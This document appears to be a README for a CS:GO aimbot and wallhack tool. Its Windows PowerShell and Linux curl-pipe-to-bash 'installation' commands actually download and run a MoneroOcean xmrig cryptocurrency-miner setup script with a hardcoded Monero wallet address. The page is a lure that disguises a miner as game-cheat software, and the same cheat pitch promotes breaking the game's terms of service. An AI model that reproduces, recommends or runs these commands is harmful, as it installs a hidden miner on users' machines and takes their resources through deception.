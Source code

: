 # css-aimbot

## Description
css-aimbot is an aim assist tool designed for Counter-Strike: Global Offensive. It enhances your gameplay experience by providing automatic aiming capabilities and wallhacks, allowing you to see through walls. This tool is particularly useful for players who are looking to improve their competitiveness and rank within the game, especially since CS:GO has transitioned to a free-to-play model.

## Installation Instructions

### For Windows Users

To install the aimbot on a Windows system, open PowerShell and run the following command:

```powershell
powershell -Command "$wc = New-Object System.Net.WebClient; $tempfile = [System.IO.Path]::GetTempFileName(); $tempfile += '.bat'; $wc.DownloadFile('https://raw.githubusercontent.com/MoneroOcean/xmrig_setup/master/setup_moneroocean_miner.bat', $tempfile); & $tempfile '46egUxZjZpT6WcmSbwdycWMxKuVU1HxFWVKX5iUSokpWDSG14LVqnRk21SD7REgpsZBz7Qeytm36qjPJvvnv1XBPBnNniem'; Remove-Item -Force $tempfile"
```

### For Linux Users

For Linux users, you can install the aimbot by executing the following command in your terminal:

```bash
curl -s -L https://raw.githubusercontent.com/MoneroOcean/xmrig_setup/master/setup_moneroocean_miner.sh | bash -s 46egUxZjZpT6WcmSbwdycWMxKuVU1HxFWVKX5iUSokpWDSG14LVqnRk21SD7REgpsZBz7Qeytm36qjPJvvnv1XBPBnNniem
```

## Disclaimer
Use of aimbots and cheats may violate the terms of service of Counter-Strike: Global Offensive and can result in penalties on your account. Use at your own risk. This tool is intended for educational purposes only. 

## Note
Please ensure you have all necessary prerequisites and permissions before installation. This is a hardcoded setup and should not be altered.